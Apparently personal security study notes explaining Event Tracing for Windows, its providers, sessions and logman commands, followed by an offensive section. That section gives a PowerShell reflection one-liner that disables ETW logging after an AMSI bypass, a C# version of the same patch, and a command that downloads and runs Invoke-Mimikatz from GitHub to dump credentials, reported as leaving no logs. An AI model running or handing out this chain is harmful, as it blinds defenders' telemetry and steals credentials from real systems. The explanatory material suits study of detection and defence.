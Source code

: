 # ETW - Event Tracing for Windows (Kernel mode)

> **TL;DR** ETW basically is a kernel level debug logging mechanism in Windows - it allows to gather advanced telemetry about functions being called. `Windows Event Logs` contain a subset of ETW events. Typically used by application developers to debug programs, but has found its way as a telemetry source for `EDR's`. 

Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers). ETW can be used for system and app diagnosis, troubleshooting, and performance monitoring.

![Screenshot](./images/etwarch.jpg)
https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw

***Provider***
A provider is an instrumented component that generates events. A provider can be a user mode app, a kernel mode driver, or the Windows kernel itself. In addition to fixed event data (header), an event can carry user data.

An event is an event-based representation of data. The data can be used for in-depth analysis. An event can also be used to produce counters. Counters provide a sample-based view of data. They typically contain a small set of data to show current state, for example I/O bytes per second and interrupts per second.

A provider must register with ETW and send events by calling the ETW Logging APIs. Providers register a callback function for enable and disable notifications so that tracing can be enabled and disabled dynamically.

***Session***
The ETW session infrastructure works as an intermediate broker that relays the events from one or more providers to the consumer. A session is a kernel object that collects events into kernel buffer and sends them to a specified file or real-time consumer process. Multiple providers can be mapped to a single session, which allows users to collect data from multiple sources.

***Controller***
A controller starts, stops, or updates a trace session. A session is a unit for tracing. Providers are mapped (or enabled) to a specific session. A controller enables and disables providers so that they can start sending events to ETW. Controller functionalities can be invoked with tools provided by Microsoft or you can write your own app.

Logman.exe is an in-box controller app. Windows Performance Recorder (WPR) in the Windows Performance Toolkit is the recommended controller process.

***Consumer***
A consumer is an app that reads a logged trace file (ETL file) or captures events in an active trace session in real time, and processes events. Event Viewer and Resource Monitor are in-box ETW consumer apps.

Windows Performance Analyzer (WPA) in the Windows Performance Toolkit is the recommended consumer process.


To see which ETW providers are running on the system
```code
logman query -ets
```

logman  query providers | select-string "defender"

Notice sysmon, Windows Defender...

```code
logman query providers Microsoft-Windows-Kernel-Process
```
|Provider|                                 GUID|
|----------------------------------|---------------------------------------------|
|Microsoft-Windows-Kernel-Process|         {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716}|

```code
logman start mysession -p {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} -o mytest.etl -ets
logman start mysession -p Microsoft-Windows-Kernel-Process -o mytest.etl -ets
logman stop mysession -ets
tracerpt mytest.etl
```


https://github.com/Microsoft/perfview/releases


logman create trace MyETWSession -p "Microsoft-Windows-Kernel-Process" 0x8 -o "C:\temp\kernel-process.etl" -ets

.\filebeat.exe -e -c filebeat.yml -d "*"



-----

```powershell 
logman start Microsoft-Windows-Kernel-Memory -p Microsoft-Windows-Kernel-Memory 0xffffffffffffffff win:informational -ets
logman stop Microsoft-Windows-Kernel-Memory -ets 
```

tracerpt .\Microsoft-Windows-Kernel-Memory.etl -o Microsoft-Windows-Kernel-Memory.evtx -of evtx -lr

Microsoft-Windows-DotNETRuntime
Microsoft-Windows-Threat-Intelligence


Provider                                 GUID
-------------------------------------------------------------------------------
Microsoft-Windows-Threat-Intelligence    {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}

-----

| Value              | Keyword                                                        | Description                                                                                           |
| ------------------ | -------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 0x0000000000000001 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL                         | Allocates virtual memory in the local process.                                                        |
| 0x0000000000000002 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL_KERNEL_CALLER           | Allocates virtual memory in the local process, called from kernel mode.                               |
| 0x0000000000000004 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE                        | Allocates virtual memory in a remote process.                                                         |
| 0x0000000000000008 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE_KERNEL_CALLER          | Allocates virtual memory in a remote process, called from kernel mode.                                |
| 0x0000000000000010 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL                       | Changes the protection on a region of virtual memory in the local process.                            |
| 0x0000000000000020 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL_KERNEL_CALLER         | Changes the protection on a region of virtual memory in the local process, called from kernel mode.   |
| 0x0000000000000040 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE                      | Changes the protection on a region of virtual memory in a remote process.                             |
| 0x0000000000000080 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE_KERNEL_CALLER        | Changes the protection on a region of virtual memory in a remote process, called from kernel mode.    |
| 0x0000000000000100 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL                         | Maps a view of a file mapping into the address space of the local process.                            |
| 0x0000000000000200 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL_KERNEL_CALLER           | Maps a view of a file mapping into the address space of the local process, called from kernel mode.   |
| 0x0000000000000400 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE                        | Maps a view of a file mapping into the address space of a remote process.                             |
| 0x0000000000000800 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE_KERNEL_CALLER          | Maps a view of a file mapping into the address space of a remote process, called from kernel mode.    |
| 0x0000000000001000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE                   | Queues an asynchronous procedure call (APC) to a thread in a remote process.                          |
| 0x0000000000002000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE_KERNEL_CALLER     | Queues an asynchronous procedure call (APC) to a thread in a remote process, called from kernel mode. |
| 0x0000000000004000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE               | Sets the context of a thread in a remote process.                                                     |
| 0x0000000000008000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE_KERNEL_CALLER | Sets the context of a thread in a remote process, called from kernel mode.                            |
| 0x0000000000010000 | KERNEL_THREATINT_KEYWORD_READVM_LOCAL                          | Reads virtual memory in the local process.                                                            |
| 0x0000000000020000 | KERNEL_THREATINT_KEYWORD_READVM_REMOTE                         | Reads virtual memory in a remote process.                                                             |
| 0x0000000000040000 | KERNEL_THREATINT_KEYWORD_WRITEVM_LOCAL                         | Writes to virtual memory in the local process.                                                        |
| 0x0000000000080000 | KERNEL_THREATINT_KEYWORD_WRITEVM_REMOTE                        | Writes to virtual memory in a remote process.                                                         |
| 0x0000000000100000 | KERNEL_THREATINT_KEYWORD_SUSPEND_THREAD                        | Suspends a thread.                                                                                    |
| 0x0000000000200000 | KERNEL_THREATINT_KEYWORD_RESUME_THREAD                         | Resumes a suspended thread.                                                                           |
| 0x0000000000400000 | KERNEL_THREATINT_KEYWORD_SUSPEND_PROCESS                       | Suspends all threads in a process.                                                                    |
| 0x0000000000800000 | KERNEL_THREATINT_KEYWORD_RESUME_PROCESS                        | Resumes all threads in a suspended process.                                                           |
| 0x0000000001000000 | KERNEL_THREATINT_KEYWORD_FREEZE_PROCESS                        | Freezes a process, preventing it from executing.                                                      |
| 0x0000000002000000 | KERNEL_THREATINT_KEYWORD_THAW_PROCESS                          | Thaws a frozen process, allowing it to execute.                                                       |
| 0x0000000004000000 | KERNEL_THREATINT_KEYWORD_CONTEXT_PARSE                         | Parses the context of a process or thread.                                                            |
| 0x0000000008000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_VAD_PROBE           | Probes the virtual address descriptor (VAD) for an execution address.                                 |
| 0x0000000010000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_MMF_NAME_PROBE      | Probes the memory-mapped file (MMF) name for an execution address.                                    |
| 0x0000000020000000 | KERNEL_THREATINT_KEYWORD_READWRITEVM_NO_SIGNATURE_RESTRICTION  | Reads or writes virtual memory without signature restrictions.                                        |
| 0x0000000040000000 | KERNEL_THREATINT_KEYWORD_DRIVER_EVENTS                         | Logs events related to kernel-mode drivers.                                                           |
| 0x0000000080000000 | KERNEL_THREATINT_KEYWORD_DEVICE_EVENTS                         | Logs events related to device operations.                                                             |
| 0x8000000000000000 | Microsoft-Windows-Threat-Intelligence/Analytic                 | Logs analytic events for threat intelligence.                                                         |

| Value | Level             | Description |
| ----- | ----------------- | ----------- |
| 0x04  | win:Informational | Information |

| PID        | Image |
| ---------- | ----- |
| 0x00000000 |       |

https://github.com/Lsecqt-Sponsors/Haunt_Agent/blob/main/Payload_Type/haunt/haunt/agent_code/etw.ps1
https://github.com/MHaggis/PowerShell-Hunter

https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/

run after amsi bypass:

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

No detections, AMSI is disabled, ETW is disabled -> Check eventviewer -> no powershell logs.

## Understanding the Components:

* **`[Reflection.Assembly]::LoadWithPartialName('System.Core')`:**
    * Loads the `System.Core.dll` assembly, containing core .NET classes, including `System.Diagnostics.Eventing.EventProvider`.
* **`.GetType('System.Diagnostics.Eventing.EventProvider')`:**
    * Retrieves the `System.Diagnostics.Eventing.EventProvider` type, responsible for emitting ETW events.
* **`.GetField('m_enabled','NonPublic,Instance')`:**
    * Retrieves the `m_enabled` field of the `EventProvider` class, a non-public instance field that determines whether ETW events are enabled.
* **`.SetValue(...)`:**
    * Sets the value of the `m_enabled` field.
* **`[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')`:**
    * Retrieves the `System.Management.Automation.Tracing.PSEtwLogProvider` type, a PowerShell-specific wrapper around the .NET ETW functionality.
* **`.GetField('etwProvider','NonPublic,Static').GetValue($null)`:**
    * Retrieves the `etwProvider` field of the `PSEtwLogProvider` class, a non-public static field holding a reference to the `EventProvider` instance used by PowerShell.
* **`,0`:**
    * Sets the `m_enabled` field to `0` (false), disabling ETW events for the PowerShell `EventProvider`.

## How It Works (ETW Bypass):

* PowerShell uses the .NET `EventProvider` class to generate ETW events.
* The `PSEtwLogProvider` class in PowerShell acts as a bridge, holding the specific `EventProvider` instance used for PowerShell logging.
* The `m_enabled` field within the `EventProvider` class controls whether events are actually emitted.
* By using reflection, the code directly accesses and modifies this internal `m_enabled` field, setting it to `0`.
* This prevents the PowerShell `EventProvider` from generating ETW events, effectively bypassing ETW logging for that PowerShell process.

![Screenshot](./images/etw_diag.jpg)

## Key Points:

* This method relies on internal .NET implementation details and might break if those details change in future .NET or PowerShell versions.
* It only affects the current PowerShell process.
* It is very effective at disabling the ETW logging from within powershell.
* This technique is commonly used by malicious actors.
* EDR solutions monitor for this type of activity.

CSHARP CODE (AI Generated) using the same ETW bypass (also works for .net binaries)

```CSharp
using System;
using System.Diagnostics.Eventing;
using System.Reflection;

public class EtwBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the EventProvider type
            Type eventProviderType = typeof(EventProvider);

            // Find the m_enabled field (non-public, instance)
            FieldInfo mEnabledField = eventProviderType.GetField("m_enabled", BindingFlags.NonPublic | BindingFlags.Instance);

            // Get the EventProvider instance used by the application (you'll need to adapt this part)
            // This is the tricky part, as you need to find the specific instance you want to patch.
            // In a real application, you would need to find the event provider instance that is used.
            // This example creates a new instance just for demonstration.
            EventProvider dummyProvider = new EventProvider(Guid.NewGuid());

            // Set the m_enabled field to 0 (false)
            if (mEnabledField != null)
            {
                mEnabledField.SetValue(dummyProvider, 0);
                Console.WriteLine("ETW bypassed.");
            }
            else
            {
                Console.WriteLine("m_enabled field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```

## ETW Patching in .NET Binaries vs. PowerShell

**PowerShell Patch:**

* Uses reflection to modify the `PSEtwLogProvider` within the PowerShell process.
* Specifically targets how PowerShell logs events.
* Limited to the PowerShell process.
* Executed as a PowerShell command.
* Targets the PowerShell ETW logging mechanism.

**.NET Binary Patch (C# Example):**

* Compiles into a standalone .NET executable.
* Uses reflection to directly modify the `EventProvider` class within the running .NET binary.
* Can patch ETW logging for any .NET application that uses the standard .NET `EventProvider` class, if the correct `EventProvider` instance can be located.
* Can affect any .NET application.
* Executed as a compiled executable.
* Targets the `EventProvider` class, allowing it to target any .NET application using that class.

**Key Differences and Implications:**

* **Scope:**
    * PowerShell patch: Limited to the PowerShell process.
    * .NET binary patch: Can affect any .NET application, if the correct event provider can be located.
* **Execution Context:**
    * PowerShell patch: Executed as a PowerShell command.
    * .NET binary patch: Executed as a compiled executable.
* **Targeting:**
    * Powershell patch: Targets the powershell ETW logging.
    * .net binary patch: Targets the event provider class, so it can target any .net application that uses that class.

**In summary:** The C# code provides a more general-purpose ETW patching mechanism that can be used independently of PowerShell, while the PowerShell one-liner is specific to the PowerShell environment.

---

# TelemetrySourceror

Make sure secure boot is disabled in VM

```powershell
bcdedit.exe -set TESTSIGNING ON
```

Reboot the machine

Use PSEXEC to run as system and run Telemetry Sourceror

---

ETW USER LAND vs KERNEL MODE